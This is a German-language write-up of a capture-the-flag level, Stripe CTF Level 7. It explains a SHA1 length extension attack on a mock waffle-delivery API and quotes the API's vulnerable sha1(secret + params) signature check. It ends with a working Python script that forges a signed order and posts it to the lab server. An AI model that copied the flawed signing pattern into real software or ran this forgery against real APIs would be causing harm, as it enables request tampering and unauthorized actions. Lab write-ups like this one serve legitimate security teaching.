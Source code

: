 LEVEL 07
========

SHA1 length extension attack

[http://www.vnsecurity.net/t/length-extension-attack/](http://www.vnsecurity.net/t/length-extension-attack/)

---

Welcome to the penultimate level, Level 7.

WaffleCopter is a new service delivering locally-sourced organic waffles hot off of vintage waffle irons straight to your location using quad-rotor GPS-enabled helicopters. The service is modeled after TacoCopter, an innovative and highly successful early contender in the airborne food delivery industry. WaffleCopter is currently being tested in private beta in select locations.

Your goal is to order one of the decadent Liège Waffles, offered only to WaffleCopter's first premium subscribers.

Log in to your account at https://level07-2.stripe-ctf.com/user-XXXX with username ctf and password password. You will find your API credentials after logging in. You can fetch the code for the level via
git clone https://level07-2.stripe-ctf.com/user-XXXX/level07-code, or you can read it below. You may find the sample API client in client.py particularly helpful.

---

Bei Level 7 handelt es sich um einen SHA 1 Length Extension Attack.

    def verify_signature(user_id, sig, raw_params):
        # get secret token for user_id
        try:
            row = g.db.select_one('users', {'id': user_id})
        except db.NotFound:
            raise BadSignature('no such user_id')
        secret = str(row['secret'])

        h = hashlib.sha1()
        h.update(secret + raw_params)
        print 'computed signature', h.hexdigest(), 'for body', repr(raw_params)
        if h.hexdigest() != sig:
            raise BadSignature('signature does not match')
        return True

Es wird also eine Anfrage an den wafflecopter gesendet, dessen Signatur mit hashlib.sha1(api\_secret + params).hexdigest() generiert wird. Serverseitig muss diese Signatur mit hashlib.sha1(hinterlegtes\_secret + params).hexdigest() übereinstimmen. Wichtig ist auch, dass wir die Logs von jedem Nutzer einsehen können - auch von User 1, der Zugang zu der begehrten _Liege-Waffle_ hat. Daraus können wir sehen, welche Anfrage bereits von dem User gemacht wurde und welche Signatur dabei generiert wurde - das Secret bleibt unbekannt. Wie auf [VNSECURITY](http://www.vnsecurity.net/t/length-extension-attack/" target="_blank) beschrieben kann hier ein SHA1 Length Extension Attack angewendet werden, der es erlaubt die übertragenen Parameter zu verändern und eine neue valide Signatur zu generieren, ohne den Secret zu kennen. Wie und warum und was und überhaupt kann der interessierte Leser hier sehen: [Flickr's API Signature Forgery Vulnerability](http://netifera.com/research/flickr_api_signature_forgery.pdf). Nutzen wir einfach das Script und schon lässt uns der Server eine begehrte _Liege-Waffle_ haben!

    #!/usr/bin/env python
    #
    # sha1 padding/length extension attack
    # by rd@vnsecurity.net
    #

    import sys
    import base64
    import requests
    from shaext import shaext

    key = 'GHBD30wBR5DvjK'
    keylen = len(key)
    orig_msg = 'count=2&lat=37.351&user_id=1&long=-119.827&waffle=chicken' #< original message
    orig_sig = '38ee18cd57e1ca3ba2c624b876afe9ea41a8b45c'   #< original hash
    add_msg = '&waffle=liege'

    ext = shaext(orig_msg, keylen, orig_sig)
    ext.add(add_msg)

    (new_msg, new_sig) = ext.final()

    body = "%s|sig:%s" % (new_msg, new_sig)
    print "\nBODY: %s" % body
    resp = requests.post('https://level07-2.stripe-ctf.com/user-xxxxxxxxx/orders', data=body)
    #resp = requests.post('http://localhost:9233/orders', data=body)
    print resp.text